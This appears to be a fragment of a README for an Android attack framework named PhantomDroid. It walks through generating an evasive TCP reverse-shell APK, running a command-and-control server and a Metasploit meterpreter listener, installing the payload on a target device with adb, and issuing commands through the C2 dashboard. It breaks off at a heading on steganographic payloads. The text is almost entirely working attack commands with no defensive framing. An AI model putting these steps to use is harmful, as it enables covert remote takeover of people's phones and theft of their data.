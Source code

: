 ### Phase 1: Setup

```bash
# 1. Clone and setup PhantomDroid
git clone https://github.com/YOUR_USERNAME/PhantomDroid.git
cd PhantomDroid
sudo ./install.sh

# 2. Start framework
./phantomdroid.sh
```

### Phase 2: Payload Generation

```bash
# 3. Generate payload (Option 1 in menu)
# - Type: TCP Reverse Shell
# - LHOST: 192.168.1.100 (your Kali IP)
# - LPORT: 4444
# - Evasion: High

# Or command line:
python3 core/payload_generator.py --type tcp_reverse --lhost 192.168.1.100 --lport 4444 --evasion high
```

### Phase 3: C2 Infrastructure

```bash
# 4. Start C2 server (Option 6 in menu)
python3 core/c2_server.py --port 8080 --protocol 1

# 5. Start Metasploit listener (separate terminal)
msfconsole -q -x "use multi/handler; set payload android/meterpreter/reverse_tcp; set LHOST 192.168.1.100; set LPORT 4444; exploit -j"
```

### Phase 4: Deployment & Testing

```bash
# 6. Deploy APK to target device
adb install output/payloads/phantom_tcp_*.apk

# 7. Monitor C2 dashboard
firefox http://localhost:8080 &

# 8. Execute commands via C2 interface
```

## 🛡️ Advanced Features on Kali

### Steganographic Payloads
